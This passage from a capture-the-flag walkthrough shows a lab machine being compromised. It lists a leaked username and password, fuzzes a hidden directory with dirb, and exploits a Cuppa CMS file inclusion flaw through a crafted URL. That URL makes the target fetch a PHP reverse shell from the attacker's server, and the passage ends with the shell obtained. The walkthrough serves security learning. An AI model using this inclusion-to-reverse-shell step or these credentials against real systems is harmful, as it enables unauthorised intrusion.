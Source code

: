 ```ad-note
##### Credentials
---

`milesdyson` : )s{A&2Z=F^n_E.B`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121135937.png)

A bunch of files are inside of it, let's look for anything useful:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121140027.png)

Bunch of stuff too, but we found something interesting a `important.txt` file, let's get it and analyze it in our machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121140112.png)

We found a hidden directory: `/45kra24zxs28v3yd`, let's fuzz this directory to check if anything useful is hidding within it:

`dirb http://10.10.183.201/45kra24zxs28v3yd`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121140644.png)

```

# EXPLOITATION
---


We found a `/administrator` directory inside, let's take a look:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121140728.png)

This is running `Cuppa` if we use searchsploit we get this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121140810.png)

A [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] vulnerability is shown, let's read and exploit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121142014.png)
So, in order to exploit this and get a reverse shell, we need to follow these steps:

```ad-summary
1. Download a php reverse shell.
2. Start a server using python.
3. Start our listener
4. Request the link: `http://$ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$our_ip:8000/shell.php`

### Output 
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121142636.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121142641.png)
We got our shell.

```
